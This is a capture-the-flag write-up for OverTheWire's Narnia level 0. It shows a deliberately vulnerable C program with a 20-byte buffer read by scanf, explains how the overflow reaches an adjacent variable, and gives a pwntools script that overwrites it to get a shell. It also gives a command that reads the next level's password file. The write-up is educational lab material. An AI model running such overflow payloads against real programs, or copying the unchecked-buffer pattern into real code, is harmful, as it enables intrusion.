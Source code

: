 ```yaml
---
title: Narnia0

published: 2025-06-18

description: Buffer Overflow

tags: [pwn, buffer overflow, c]

category: overthewire-narnia
---
```


# Narnia 0

## C File

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

## Approach

Looks like the code initially sets `val` to `0x41414141` and then only gives us a shell if `val` magically turns into `0xdeadbeef`

However, since the `scanf` takes in 24 chars and the buffer is only 20 we can enter in some extra input that will overwrite val into `0xdeadbeef`

## Solution

Now we write a quick pwntools solution to get our shell

```python
from pwn import *
payload = b'A'*20
payload += p32(0xdeadbeef)

p = process("/narnia/narnia0")
p.sendline(payload)
p.interactive()
```

First we send 20 chars of random input to fill up `buf` then we add `0xdeadbeef` which will overflow into `val` letting us pass the check

Finally we send this to the process and enter interactive so we can grab the password to the next level using `cat /etc/narnia_pass/narnia1`

*I won't be showing the passwords in this write up since the game is always running*

## Conclusion

When writing c programs always make sure that the buffer is large enough to contain the users input including the null byte

Not doing this can risk a buffer overflow leading to vulnerabilies like this
